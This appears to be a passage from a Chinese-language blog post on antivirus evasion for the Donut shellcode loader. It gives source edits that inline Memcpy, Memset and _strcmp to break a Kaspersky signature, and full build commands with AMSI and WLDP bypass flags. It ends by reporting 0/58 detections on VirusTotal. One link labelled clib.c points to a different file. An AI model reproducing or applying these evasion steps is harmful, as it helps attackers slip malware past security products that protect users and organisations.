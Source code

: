 可以看到`Kaspersky`和`ZoneAlarm by Check Point`会报`HEUR:Trojan.Win64.Donut.a`

进一步分析，对应 Donut 的源代码在[clib.c](https://github.com/TheWover/donut/blob/v1.0/loader/script_dotnet.c)中的`Memcpy` `Memset` `_strcmp`三个函数

### 通过 inline 字免杀 Loader

由于杀软检测上述特征序列，所以将这三个函数通过 inline 方式嵌入调用者函数中

inline 嵌入后，LOADER 将不会有上述特征序列

#### 修改代码

修改`clib.c`代码

```bash
inline void *Memset (void *ptr, int value, uint32_t num)
// ...
inline void *Memcpy (void *destination, const void *source, uint32_t num)
// ...
inline int _strcmp(const char *str1, const char *str2) 
// ...
```

修改`loader.c`,直接包含`clib.c`

```bash
#include "loader.h"
#include "clib.c"   // <-- 添加这行
DWORD MainProc(PDONUT_INSTANCE inst);
// ...
```

#### 重新生成`loader_exe_x86.h`

安装 VS2022，打开`x86 Native Tools Command Prompt for VS 2022`，进入 Donut 源码目录

```bash
cl /nologo loader\exe2h\exe2h.c loader\exe2h\mmap-windows.c
cl -DBYPASS_AMSI_A -DBYPASS_WLDP_A -Zp8 -c -nologo -Gy -Os -O1 -Ob1 -GR- -EHa -Oi -GS- -Gs2147483647 -I include loader\loader.c hash.c encrypt.c loader\depack.c
link -nologo -order:@loader\order.txt -entry:DonutLoader -fixed -subsystem:console -nodefaultlib loader.obj hash.obj encrypt.obj depack.obj
exe2h.exe loader.exe
```

命令对应说明

1.  生成 exe2h.exe
2.  编译 LOADER
3.  链接 LOADER
4.  通过 exe2h.exe 将 loader.exe 转换为`loader_exe_x86.h`

再次将 LOADER 保存为文件，查杀结果为 0/58，查杀报告[链接](https://www.virustotal.com/gui/file/1cfa5ff012b9397c05d07a35fe163dad31f068a9bfd16ca30cc0aa23a8594c67)

至此 LOADER 的免杀就完成，但重新编译`donut.exe`后，再次生成 shellcode 查杀还有问题
